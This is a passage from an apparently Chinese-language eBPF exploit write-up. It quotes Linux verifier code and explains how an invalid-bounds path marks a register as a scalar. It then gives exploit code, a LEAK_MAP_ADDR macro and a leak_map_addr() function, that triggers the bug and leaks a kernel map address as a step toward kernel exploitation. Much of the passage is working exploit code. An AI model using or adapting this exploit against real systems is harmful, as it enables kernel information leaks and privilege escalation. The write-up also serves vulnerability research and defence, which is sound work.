 ```

        dst_reg = ®s[dst];

        if ((known && (smin_val != smax_val || umin_val != umax_val)) ||
            smin_val > smax_val || umin_val > umax_val) {
                /* Taint dst register if offset had invalid bounds derived from                 * e.g. dead branches.                 */
                __mark_reg_unknown(env, dst_reg);
                return 0;
        }
        //...
```  
  
而 __mark_reg_unknown() 则会  
直接将寄存器设为标量值类型，这样的值可以直接存入 map 而不会被 verifier 限制：  
```
static void __mark_reg_unknown(const struct bpf_verifier_env *env,
                               struct bpf_reg_state *reg)
{
        /*         * Clear type, id, off, and union(map_ptr, range) and         * padding between 'type' and union         */
        memset(reg, 0, offsetof(struct bpf_reg_state, var_off));
        reg->type = SCALAR_VALUE;
        reg->var_off = tnum_unknown;
        reg->frameno = 0;
        reg->precise = env->subprog_cnt > 1 || !env->bpf_capable;
        __mark_reg_unbounded(reg);
}

```  
  
由此我们便可以通过将指针寄存器与一个漏洞寄存器进行算术运算来绕过这个限制，从而泄露出 map 的地址，需要注意的是  
我们的漏洞寄存器的第 33 位是 unknown 的，我们需要将其进行截断以消去：  
> 我们应当尽量减少截断时 verifier 对寄存器的跟踪，因此这里直接用 mov ，如果使用 and 0xffffffff 这样的操作则没法消除掉 unknown 位，少 and 几位则会导致寄存器边界值和 var_off 重新更新  
  
```
#define LEAK_MAP_ADDR(__map_fd)                         \        BPF_READ_ARRAY_MAP_IDX(0, __map_fd, BPF_REG_7), \        BPF_MOV32_REG(VULN_REG, VULN_REG),              \        BPF_ALU64_REG(BPF_ADD, BPF_REG_7, VULN_REG),    \        BPF_READ_ARRAY_MAP_IDX(1, __map_fd, BPF_REG_8), \        BPF_STX_MEM(BPF_DW, BPF_REG_8, BPF_REG_7, 0)

int leak_map_addr(int map_fd)
{
    struct bpf_insn prog[] = {
        TRIGGER_VULN(map_fd),
        LEAK_MAP_ADDR(map_fd), 
        BPF_EXIT_INSN()
    };

    return run_bpf_prog(prog, sizeof(prog) / sizeof(prog[0]), 1, 0);
}
```  
  